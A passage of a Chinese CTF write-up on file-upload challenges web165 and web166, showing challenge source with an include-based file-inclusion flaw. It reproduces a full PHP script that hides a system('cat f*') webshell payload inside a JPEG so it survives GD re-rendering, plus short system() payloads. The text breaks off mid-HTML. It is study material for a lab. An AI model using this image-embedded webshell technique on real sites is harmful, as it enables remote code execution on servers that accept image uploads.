<h2 id="upload文件的内容"><a href="#upload文件的内容" class="headerlink" title="upload文件的内容"></a>upload文件的内容</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-24 19:34:52</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-27 17:14:10</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">if</span> (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>] &gt; <span class="number">0</span>)</span><br><span class="line">&#123;</span><br><span class="line">	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;error&quot;</span>]);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line">&#123;</span><br><span class="line">    <span class="variable">$filename</span> = <span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>];</span><br><span class="line">    <span class="variable">$filesize</span> = (<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;size&quot;</span>] / <span class="number">1024</span>);</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$filesize</span>&gt;<span class="number">1024</span>)&#123;</span><br><span class="line">    	<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">1</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件超过1024KB&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    	<span class="keyword">if</span>(<span class="variable">$_FILES</span>[<span class="string">&#x27;file&#x27;</span>][<span class="string">&#x27;type&#x27;</span>] == <span class="string">&#x27;image/png&#x27;</span>)&#123;</span><br><span class="line">            <span class="variable">$arr</span> = <span class="title function_ invoke__">pathinfo</span>(<span class="variable">$filename</span>);</span><br><span class="line">            <span class="variable">$ext_suffix</span> = <span class="variable">$arr</span>[<span class="string">&#x27;extension&#x27;</span>];</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">in_array</span>(<span class="variable">$ext_suffix</span>, <span class="keyword">array</span>(<span class="string">&quot;png&quot;</span>)))&#123;</span><br><span class="line">                <span class="variable">$png</span> = <span class="title function_ invoke__">imagecreatefrompng</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;tmp_name&quot;</span>]);</span><br><span class="line">                <span class="keyword">if</span>(<span class="variable">$png</span>==<span class="literal">FALSE</span>)&#123;</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">                &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                    <span class="variable">$dst</span> = <span class="string">&#x27;upload/&#x27;</span>.<span class="title function_ invoke__">md5</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]).<span class="string">&quot;.png&quot;</span>;</span><br><span class="line">                    <span class="title function_ invoke__">imagepng</span>(<span class="variable">$png</span>,<span class="variable">$dst</span>);</span><br><span class="line">                    <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">0</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="title function_ invoke__">md5</span>(<span class="variable">$_FILES</span>[<span class="string">&quot;file&quot;</span>][<span class="string">&quot;name&quot;</span>]).<span class="string">&quot;.png&quot;</span>);</span><br><span class="line">                &#125;</span><br><span class="line">            &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">                <span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">3</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;只允许上传png格式图片&quot;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            </span><br><span class="line">    		</span><br><span class="line">    	&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    		<span class="variable">$ret</span> = <span class="keyword">array</span>(<span class="string">&quot;code&quot;</span>=&gt;<span class="number">2</span>,<span class="string">&quot;msg&quot;</span>=&gt;<span class="string">&quot;文件类型不合规&quot;</span>);</span><br><span class="line">    	&#125;</span><br><span class="line">    	</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>);</span><br></pre></td></tr></table></figure>


<h1 id="web165"><a href="#web165" class="headerlink" title="web165"></a>web165</h1><h2 id="原始信息-75"><a href="#原始信息-75" class="headerlink" title="原始信息"></a>原始信息</h2><p>都一样，提示信息无法明眼看出有什么变化。</p>
<h2 id="解题-70"><a href="#解题-70" class="headerlink" title="解题"></a>解题</h2><p>服务端jpg二次渲染的标志：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), default quality</span><br></pre></td></tr></table></figure>

<p>和上一道题目有一个共同点：通过渲染插件去包含执行php代码。不过……</p>
<p>网上见到三个脚本，测了快一天实在是测不动了。测试的比较可行的是这位师傅的：<a target="_blank" rel="noopener" href="https://www.bilibili.com/read/cv17496404/">https://www.bilibili.com/read/cv17496404/</a></p>
<p>具体步骤就是使用一张图片，通过如下脚本在cmd运行并且插入木马，上传后得到flag.</p>
<ol>
<li>脚本：</li>
</ol>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line">    <span class="variable">$miniPayload</span> = <span class="string">&#x27;&lt;?=system(&quot;cat f*&quot;);?&gt;&#x27;</span>;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">extension_loaded</span>(<span class="string">&#x27;gd&#x27;</span>) || !<span class="title function_ invoke__">function_exists</span>(<span class="string">&#x27;imagecreatefromjpeg&#x27;</span>)) &#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;php-gd is not installed&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(!<span class="keyword">isset</span>(<span class="variable">$argv</span>[<span class="number">1</span>])) &#123;</span><br><span class="line">        <span class="comment">//die(&#x27;php jpg_payload.php &lt;jpg_name.jpg&gt;&#x27;);</span></span><br><span class="line">        <span class="variable">$argv</span>[<span class="number">1</span>] = <span class="string">&#x27;1.jpg&#x27;</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="title function_ invoke__">set_error_handler</span>(<span class="string">&quot;custom_error_handler&quot;</span>);</span><br><span class="line"></span><br><span class="line">    <span class="keyword">for</span>(<span class="variable">$pad</span> = <span class="number">0</span>; <span class="variable">$pad</span> &lt; <span class="number">1024</span>; <span class="variable">$pad</span>++) &#123;</span><br><span class="line">        <span class="variable">$nullbytePayloadSize</span> = <span class="variable">$pad</span>;</span><br><span class="line">        <span class="variable">$dis</span> = <span class="keyword">new</span> <span class="title class_">DataInputStream</span>(<span class="variable">$argv</span>[<span class="number">1</span>]);</span><br><span class="line">        <span class="variable">$outStream</span> = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$argv</span>[<span class="number">1</span>]);</span><br><span class="line">        <span class="variable">$extraBytes</span> = <span class="number">0</span>;</span><br><span class="line">        <span class="variable">$correctImage</span> = <span class="literal">TRUE</span>;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">readShort</span>() != <span class="number">0xFFD8</span>) &#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&#x27;Incorrect SOI marker&#x27;</span>);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">while</span>((!<span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">eof</span>()) &amp;&amp; (<span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">readByte</span>() == <span class="number">0xFF</span>)) &#123;</span><br><span class="line">            <span class="variable">$marker</span> = <span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">readByte</span>();</span><br><span class="line">            <span class="variable">$size</span> = <span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">readShort</span>() - <span class="number">2</span>;</span><br><span class="line">            <span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">skip</span>(<span class="variable">$size</span>);</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable">$marker</span> === <span class="number">0xDA</span>) &#123;</span><br><span class="line">                <span class="variable">$startPos</span> = <span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">seek</span>();</span><br><span class="line">                <span class="variable">$outStreamTmp</span> =</span><br><span class="line">                    <span class="title function_ invoke__">substr</span>(<span class="variable">$outStream</span>, <span class="number">0</span>, <span class="variable">$startPos</span>) .</span><br><span class="line">                    <span class="variable">$miniPayload</span> .</span><br><span class="line">                    <span class="title function_ invoke__">str_repeat</span>(<span class="string">&quot;\0&quot;</span>,<span class="variable">$nullbytePayloadSize</span>) .</span><br><span class="line">                    <span class="title function_ invoke__">substr</span>(<span class="variable">$outStream</span>, <span class="variable">$startPos</span>);</span><br><span class="line">                <span class="title function_ invoke__">checkImage</span>(<span class="string">&#x27;_&#x27;</span>.<span class="variable">$argv</span>[<span class="number">1</span>], <span class="variable">$outStreamTmp</span>, <span class="literal">TRUE</span>);</span><br><span class="line">                <span class="keyword">if</span>(<span class="variable">$extraBytes</span> !== <span class="number">0</span>) &#123;</span><br><span class="line">                    <span class="keyword">while</span>((!<span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">eof</span>())) &#123;</span><br><span class="line">                        <span class="keyword">if</span>(<span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">readByte</span>() === <span class="number">0xFF</span>) &#123;</span><br><span class="line">                            <span class="keyword">if</span>(<span class="variable">$dis</span>-&gt;readByte !== <span class="number">0x00</span>) &#123;</span><br><span class="line">                                <span class="keyword">break</span>;</span><br><span class="line">                            &#125;</span><br><span class="line">                        &#125;</span><br><span class="line">                    &#125;</span><br><span class="line">                    <span class="variable">$stopPos</span> = <span class="variable">$dis</span>-&gt;<span class="title function_ invoke__">seek</span>() - <span class="number">2</span>;</span><br><span class="line">                    <span class="variable">$imageStreamSize</span> = <span class="variable">$stopPos</span> - <span class="variable">$startPos</span>;</span><br><span class="line">                    <span class="variable">$outStream</span> =</span><br><span class="line">                        <span class="title function_ invoke__">substr</span>(<span class="variable">$outStream</span>, <span class="number">0</span>, <span class="variable">$startPos</span>) .</span><br><span class="line">                        <span class="variable">$miniPayload</span> .</span><br><span class="line">                        <span class="title function_ invoke__">substr</span>(</span><br><span class="line">                            <span class="title function_ invoke__">str_repeat</span>(<span class="string">&quot;\0&quot;</span>,<span class="variable">$nullbytePayloadSize</span>).</span><br><span class="line">                                <span class="title function_ invoke__">substr</span>(<span class="variable">$outStream</span>, <span class="variable">$startPos</span>, <span class="variable">$imageStreamSize</span>),</span><br><span class="line">                            <span class="number">0</span>,</span><br><span class="line">                            <span class="variable">$nullbytePayloadSize</span>+<span class="variable">$imageStreamSize</span>-<span class="variable">$extraBytes</span>) .</span><br><span class="line">                                <span class="title function_ invoke__">substr</span>(<span class="variable">$outStream</span>, <span class="variable">$stopPos</span>);</span><br><span class="line">                &#125; <span class="keyword">elseif</span>(<span class="variable">$correctImage</span>) &#123;</span><br><span class="line">                    <span class="variable">$outStream</span> = <span class="variable">$outStreamTmp</span>;</span><br><span class="line">                &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">                    <span class="keyword">break</span>;</span><br><span class="line">                &#125;</span><br><span class="line">                <span class="keyword">if</span>(<span class="title function_ invoke__">checkImage</span>(<span class="string">&#x27;payload_&#x27;</span>.<span class="variable">$argv</span>[<span class="number">1</span>], <span class="variable">$outStream</span>)) &#123;</span><br><span class="line">                    <span class="keyword">die</span>(<span class="string">&#x27;Success!&#x27;</span>);</span><br><span class="line">                &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">                	<span class="keyword">echo</span> <span class="string">&quot;error&quot;</span>;</span><br><span class="line">                    <span class="keyword">break</span>;</span><br><span class="line">                &#125;</span><br><span class="line">            &#125;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="title function_ invoke__">unlink</span>(<span class="string">&#x27;payload_&#x27;</span>.<span class="variable">$argv</span>[<span class="number">1</span>]);</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&#x27;Something\&#x27;s wrong&#x27;</span>);</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">checkImage</span>(<span class="params"><span class="variable">$filename</span>, <span class="variable">$data</span>, <span class="variable">$unlink</span> = <span class="literal">FALSE</span></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">global</span> <span class="variable">$correctImage</span>;</span><br><span class="line">        <span class="title function_ invoke__">file_put_contents</span>(<span class="variable">$filename</span>, <span class="variable">$data</span>);</span><br><span class="line">        <span class="variable">$correctImage</span> = <span class="literal">TRUE</span>;</span><br><span class="line">        <span class="title function_ invoke__">imagecreatefromjpeg</span>(<span class="variable">$filename</span>);</span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$unlink</span>)</span><br><span class="line">            <span class="title function_ invoke__">unlink</span>(<span class="variable">$filename</span>);</span><br><span class="line">        <span class="keyword">return</span> <span class="variable">$correctImage</span>;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="function"><span class="keyword">function</span> <span class="title">custom_error_handler</span>(<span class="params"><span class="variable">$errno</span>, <span class="variable">$errstr</span>, <span class="variable">$errfile</span>, <span class="variable">$errline</span></span>) </span>&#123;</span><br><span class="line">        <span class="keyword">global</span> <span class="variable">$extraBytes</span>, <span class="variable">$correctImage</span>;</span><br><span class="line">        <span class="variable">$correctImage</span> = <span class="literal">FALSE</span>;</span><br><span class="line">        <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/(\d+) extraneous bytes before marker/&#x27;</span>, <span class="variable">$errstr</span>, <span class="variable">$m</span>)) &#123;</span><br><span class="line">            <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$m</span>[<span class="number">1</span>])) &#123;</span><br><span class="line">                <span class="variable">$extraBytes</span> = (<span class="keyword">int</span>)<span class="variable">$m</span>[<span class="number">1</span>];</span><br><span class="line">            &#125;</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"></span><br><span class="line">    <span class="class"><span class="keyword">class</span> <span class="title">DataInputStream</span> </span>&#123;</span><br><span class="line">        <span class="keyword">private</span> <span class="variable">$binData</span>;</span><br><span class="line">        <span class="keyword">private</span> <span class="variable">$order</span>;</span><br><span class="line">        <span class="keyword">private</span> <span class="variable">$size</span>;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span>(<span class="params"><span class="variable">$filename</span>, <span class="variable">$order</span> = <span class="literal">false</span>, <span class="variable">$fromString</span> = <span class="literal">false</span></span>) </span>&#123;</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;binData = <span class="string">&#x27;&#x27;</span>;</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;order = <span class="variable">$order</span>;</span><br><span class="line">            <span class="keyword">if</span>(!<span class="variable">$fromString</span>) &#123;</span><br><span class="line">                <span class="keyword">if</span>(!<span class="title function_ invoke__">file_exists</span>(<span class="variable">$filename</span>) || !<span class="title function_ invoke__">is_file</span>(<span class="variable">$filename</span>))</span><br><span class="line">                    <span class="keyword">die</span>(<span class="string">&#x27;File not exists [&#x27;</span>.<span class="variable">$filename</span>.<span class="string">&#x27;]&#x27;</span>);</span><br><span class="line">                <span class="variable language_">$this</span>-&gt;binData = <span class="title function_ invoke__">file_get_contents</span>(<span class="variable">$filename</span>);</span><br><span class="line">            &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">                <span class="variable language_">$this</span>-&gt;binData = <span class="variable">$filename</span>;</span><br><span class="line">            &#125;</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;size = <span class="title function_ invoke__">strlen</span>(<span class="variable">$this</span>-&gt;binData);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">seek</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">            <span class="keyword">return</span> (<span class="variable language_">$this</span>-&gt;size - <span class="title function_ invoke__">strlen</span>(<span class="variable">$this</span>-&gt;binData));</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">skip</span>(<span class="params"><span class="variable">$skip</span></span>) </span>&#123;</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;binData = <span class="title function_ invoke__">substr</span>(<span class="variable">$this</span>-&gt;binData, <span class="variable">$skip</span>);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">readByte</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable language_">$this</span>-&gt;<span class="title function_ invoke__">eof</span>()) &#123;</span><br><span class="line">                <span class="keyword">die</span>(<span class="string">&#x27;End Of File&#x27;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            <span class="variable">$byte</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$this</span>-&gt;binData, <span class="number">0</span>, <span class="number">1</span>);</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;binData = <span class="title function_ invoke__">substr</span>(<span class="variable">$this</span>-&gt;binData, <span class="number">1</span>);</span><br><span class="line">            <span class="keyword">return</span> <span class="title function_ invoke__">ord</span>(<span class="variable">$byte</span>);</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">readShort</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">            <span class="keyword">if</span>(<span class="title function_ invoke__">strlen</span>(<span class="variable">$this</span>-&gt;binData) &lt; <span class="number">2</span>) &#123;</span><br><span class="line">                <span class="keyword">die</span>(<span class="string">&#x27;End Of File&#x27;</span>);</span><br><span class="line">            &#125;</span><br><span class="line">            <span class="variable">$short</span> = <span class="title function_ invoke__">substr</span>(<span class="variable">$this</span>-&gt;binData, <span class="number">0</span>, <span class="number">2</span>);</span><br><span class="line">            <span class="variable language_">$this</span>-&gt;binData = <span class="title function_ invoke__">substr</span>(<span class="variable">$this</span>-&gt;binData, <span class="number">2</span>);</span><br><span class="line">            <span class="keyword">if</span>(<span class="variable language_">$this</span>-&gt;order) &#123;</span><br><span class="line">                <span class="variable">$short</span> = (<span class="title function_ invoke__">ord</span>(<span class="variable">$short</span>[<span class="number">1</span>]) &lt;&lt; <span class="number">8</span>) + <span class="title function_ invoke__">ord</span>(<span class="variable">$short</span>[<span class="number">0</span>]);</span><br><span class="line">            &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">                <span class="variable">$short</span> = (<span class="title function_ invoke__">ord</span>(<span class="variable">$short</span>[<span class="number">0</span>]) &lt;&lt; <span class="number">8</span>) + <span class="title function_ invoke__">ord</span>(<span class="variable">$short</span>[<span class="number">1</span>]);</span><br><span class="line">            &#125;</span><br><span class="line">            <span class="keyword">return</span> <span class="variable">$short</span>;</span><br><span class="line">        &#125;</span><br><span class="line"></span><br><span class="line">        <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">eof</span>(<span class="params"></span>) </span>&#123;</span><br><span class="line">            <span class="keyword">return</span> !<span class="variable language_">$this</span>-&gt;binData||(<span class="title function_ invoke__">strlen</span>(<span class="variable">$this</span>-&gt;binData) === <span class="number">0</span>);</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line"><span class="meta">?&gt;</span> 作者：J_Chanra https:<span class="comment">//www.bilibili.com/read/cv17496404/ 出处：bilibili</span></span><br></pre></td></tr></table></figure>

<ol start="2">
<li><p>cmd运行：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">cmd:</span><br><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">php web146-3.php 1.jpg</span></span><br><span class="line">success!</span><br></pre></td></tr></table></figure>

<p>这样子就得到相关的图片文件了。</p>
</li>
<li><p>再把这个图片文件上传上去，使用BP访问即可得到flag。</p>
</li>
</ol>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-10-27 16:49:18</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-10-27 17:11:39</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$file</span>= <span class="variable">$_GET</span>[<span class="string">&#x27;image&#x27;</span>];</span><br><span class="line"></span><br><span class="line"><span class="variable">$file</span> = <span class="title function_ invoke__">strrev</span>(<span class="variable">$file</span>);</span><br><span class="line"><span class="variable">$ext</span> = <span class="title function_ invoke__">strrev</span>(<span class="title function_ invoke__">substr</span>(<span class="variable">$file</span>, <span class="number">0</span>,<span class="number">4</span>));</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$ext</span>===<span class="string">&#x27;.jpg&#x27;</span> &amp;&amp; <span class="title function_ invoke__">file_exists</span>(<span class="string">&quot;./upload/&quot;</span>.<span class="title function_ invoke__">strrev</span>(<span class="variable">$file</span>)))&#123;</span><br><span class="line">	<span class="title function_ invoke__">header</span>(<span class="string">&#x27;Content-Type:image/jpeg&#x27;</span>);</span><br><span class="line">	<span class="keyword">include</span>(<span class="string">&quot;./upload/&quot;</span>.<span class="title function_ invoke__">strrev</span>(<span class="variable">$file</span>));</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">	<span class="keyword">echo</span> <span class="string">&quot;图片错误&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="疑难"><a href="#疑难" class="headerlink" title="疑难"></a>疑难</h2><p>实际测试中，能真正实行的php代码验证其实不多，只有下面这两条：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="meta">&lt;?=</span><span class="title function_ invoke__">system</span>(<span class="string">&#x27;ls&#x27;</span>);<span class="meta">?&gt;</span></span><br><span class="line"><span class="meta">&lt;?=</span><span class="title function_ invoke__">system</span>(<span class="string">&#x27;cat f*&#x27;</span>);<span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>

<p>之前运气好，把 <code>dowload.php</code> 源码扣下来了，但就是干不到 <code>upload.php</code> 这个脚本，这是下次要吃瘪的节奏啊……</p>
<h1 id="web166"><a href="#web166" class="headerlink" title="web166"></a>web166</h1><h2 id="原始信息-76"><a href="#原始信息-76" class="headerlink" title="原始信息"></a>原始信息</h2><p>前端的要求：</p>
<figure class="highlight html"><table><tr><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-container&quot;</span>&gt;</span>  </span><br><span class="line">  <span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-row&quot;</span> <span class="attr">style</span>=<span class="string">&quot;height: 40px;&quot;</span>&gt;</span><span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-elem-quote&quot;</span>&gt;</span></span><br><span class="line">      <span class="tag">&lt;<span class="name">p</span> <span class="attr">id</span>=<span class="string">&quot;result&quot;</span>&gt;</span>后端校验要严密<span class="tag">&lt;/<span class="name">p</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-row&quot;</span>&gt;</span></span><br><span class="line">	    <span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-col-md12&quot;</span>&gt;</span></span><br><span class="line">	    	<span class="tag">&lt;<span class="name">button</span> <span class="attr">type</span>=<span class="string">&quot;button&quot;</span> <span class="attr">class</span>=<span class="string">&quot;layui-btn&quot;</span> <span class="attr">id</span>=<span class="string">&quot;upload&quot;</span> <span class="attr">lay-data</span>=<span class="string">&quot;&#123;url: &#x27;upload.php&#x27;, accept: &#x27;images&#x27;,exts:&#x27;zip&#x27;&#125;&quot;</span>&gt;</span></span><br><span class="line">			  <span class="tag">&lt;<span class="name">i</span> <span class="attr">class</span>=<span class="string">&quot;layui-icon&quot;</span>&gt;</span><span class="symbol">&amp;#xe67c;</span><span class="tag">&lt;/<span class="name">i</span>&gt;</span>上传文件</span><br><span class="line">			<span class="tag">&lt;/<span class="name">button</span>&gt;</span></span><br><span class="line">	    <span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">div</span> <span class="attr">class</span>=<span class="string">&quot;layui-row&quot;</span> <span class="attr">style</span>=<span class="string">&quot;height: 440px;&quot;</span>&gt;</span><span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line"></span><br><span class="line">    </span><br><span class="line"><span class="tag">&lt;/<span class="name">div</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;<span class="name">script</span> <span class="attr">src</span>=<span class="string">&quot;js/layui.js&quot;</span>&gt;</span><span class="tag">&lt;/<span class="name">script</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;<span class="name">script</span>&gt;</span><span class="language-javascript"></span></span><br><span class="line"><span class="language-javascript">layui.<span class="title function_">use</span>(<span class="string">&#x27;upload&#x27;</span>, <span class="keyword">function</span>(<span class="params"></span>)&#123;</span></span><br><span class="line"><span class="language-javascript">  <span class="keyword">var</span> upload = layui.<span class="property">upload</span>;</span></span><br><span class="line"><span class="language-javascript">   </span></span><br><span class="line"><span class="language-javascript">  <span class="comment">//执行实例</span></span></span><br><span class="line"><span class="language-javascript">  <span class="keyword">var</span> uploadInst = upload.<span class="title function_">render</span>(&#123;</span></span><br><span class="line"><span class="language-javascript">    <span class="attr">elem</span>: <span class="string">&#x27;#upload&#x27;</span> <span class="comment">//绑定元素</span></span></span><br><span class="line"><span class="language-javascript">    ,<span class="attr">url</span>: <span class="string">&#x27;/upload/&#x27;</span> <span class="comment">//上传接口</span></span></span><br><span class="line"><span class="language-javascript">    ,<span class="attr">done</span>: <span class="keyword">function</span>(<span class="params">res</span>)&#123;</span></span><br><span class="line"><span class="language-javascript">    	<span class="keyword">if</span>(res.<span class="property">code</span>==<span class="number">0</span>)&#123;</span></span><br><span class="line"><span class="language-javascript">    		$(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传成功 &lt;a href=&#x27;upload/download.php?file=&quot;</span>+res.<span class="property">msg</span>+<span class="string">&quot;&#x27; target=&#x27;_blank&#x27;&gt;下载文件&lt;/a&gt;&quot;</span>);</span></span><br><span class="line"><span class="language-javascript">    	&#125;<span class="keyword">else</span>&#123;</span></span><br><span class="line"><span class="language-javascript">    		$(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传失败，失败原因：&quot;</span>+res.<span class="property">msg</span>);</span></span><br><span class="line"><span class="language-javascript">    	&#125;</span></span><br><span class="line"><span class="language-javascript">      </span></span><br><span class="line"><span class="language-javascript">    &#125;</span></span><br><span class="line"><span class="language-javascript">    ,<span class="attr">error</span>: <span class="keyword">function</span>(<span class="params"></span>)&#123;</span></span><br><span class="line"><span class="language-javascript">      $(<span class="string">&quot;#result&quot;</span>).<span class="title function_">html</span>(<span class="string">&quot;文件上传失败&quot;</span>);</span></span><br><span class="line"><span class="language-javascript">    &#125;</span></span><br><span class="line"><span class="language-javascript">  &#125;);</span></span><br><span class="line"><span class="language-javascript">&#125;);</span></span><br><span class="line"><span class="language-javascript"></span><span class="tag">&lt;/<span 